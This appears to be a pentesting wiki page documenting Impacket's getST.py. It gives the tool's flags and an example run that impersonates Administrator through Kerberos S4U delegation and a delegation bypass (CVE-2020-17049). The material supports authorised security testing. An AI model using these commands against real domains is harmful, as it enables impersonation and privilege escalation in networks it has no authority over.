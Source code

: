 ```yaml
---
title : "GetST.py"
# pre : ' '
description : "Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache."
date : 2022-02-14T12:21:48+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## GetST.py

Given a password, hash or aesKey, it will request a Service Ticket and save it as ccache.

## Installation

Install [Impacket]({{< ref "impacket" >}}).

## Usage

```plain
getST.py [-h] [-spn SPN] [-altservice ALTSERVICE] [-impersonate IMPERSONATE] [-additional-ticket ticket.ccache] [-ts] [-debug] [-u2u] [-self] [-force-forwardable] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                [-dc-ip ip address]
                identity
```

## Flags

```plain
Impacket v0.12.0.dev1+20240718.115833.4e0e3174 - Copyright 2023 Fortra

positional arguments:
  identity              [domain/]username[:password]

options:
  -h, --help            show this help message and exit
  -spn SPN              SPN (service/server) of the target service the service ticket will be generated for
  -altservice ALTSERVICE
                        New sname/SPN to set in the ticket
  -impersonate IMPERSONATE
                        target username that will be impersonated (thru S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  -additional-ticket ticket.ccache
                        include a forwardable service ticket in a S4U2Proxy request for RBCD + KCD Kerberos only
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON
  -u2u                  Request User-to-User ticket
  -self                 Only do S4U2self, no S4U2proxy
  -force-forwardable    Force the service ticket obtained through S4U2Self to be forwardable. For best results, the -hashes and -aesKey values for the specified -identity should be provided. This allows impresonation of protected
                        users and bypass of "Kerberos-only" constrained delegation restrictions. See CVE-2020-17049

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-ip ip address     IP Address of the domain controller. If omitted it use the domain part (FQDN) specified in the target parameter

Examples: 
        ./getST.py -spn cifs/contoso-dc -hashes lm:nt contoso.com/user

        it will use the lm:nt hashes for authentication. If you don't specify them, a password will be asked
```

## Examples

[Using tickets](https://swarm.ptsecurity.com/kerberoasting-without-spns/).

To use tickets install the `klist` tool with `sudo apt install krb5-user`

```plain
$ getST.py -impersonate Administrator -spn 'host/SRV01.offsec.NL' offsec.NL/janedo:'Welkom1234'
Impacket v0.9.22.dev1+20200611.111621.760cb1ea - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

## URL List

- [Github.com - getST.py](https://github.com/fortra/impacket/blob/master/examples/getST.py)
